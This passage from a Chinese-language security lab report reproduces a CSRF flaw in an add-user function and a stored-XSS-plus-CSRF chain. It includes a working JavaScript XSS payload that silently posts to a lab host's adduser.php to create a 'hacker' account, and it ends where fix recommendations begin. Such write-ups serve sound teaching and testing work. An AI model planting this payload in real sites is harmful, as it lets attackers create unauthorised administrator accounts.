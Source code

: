 ![image-20250825020744855](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825020744855.png)

1. 使用Burp Suite拦截添加用户的POST请求

![image-20250825020759752](C:\Users\童春林\AppData\Roaming\Typora\typora-user-images\image-20250825020759752.png)

1. 生成CSRF PoC并构造恶意链接
2. 诱使已登录管理员访问该链接
3. 成功在后台添加恶意用户

### 3.2 漏洞原理分析

漏洞成因在于添加用户功能未校验请求的来源，缺乏有效的CSRF Token保护机制，导致攻击者可以伪造恶意请求。

### 3.3 漏洞利用

使用Burp Suite生成CSRF PoC，构造恶意链接诱导已登录用户点击，实现未授权添加用户操作。

## 4. 组合漏洞复现：XSS + CSRF

### 4.1 利用场景描述

结合存储型XSS和CSRF漏洞，实现更强大的攻击效果：

1. 攻击者在留言板插入包含CSRF攻击代码的XSS Payload
2. 管理员查看留言板时自动执行恶意脚本
3. 脚本自动发起AJAX请求，添加后台用户
4. 实现完全自动化的权限提升攻击

### 4.2 复现过程

**XSS Payload代码**：

```js
function submitRequest() {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://192.168.1.8/4.6/4.6.3/adduser.php", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    var body = "username=hacker&password=hacker123&addsubmit=1";
    xhr.send(body);
}
submitRequest();
```

### 4.3 组合漏洞的危害性

这种组合漏洞极大提高了攻击的威力，实现了从存储型XSS到后台权限获取的完整攻击链，危害等级为严重。

## 5. 修复建议

### 5.1 XSS漏洞修复方案
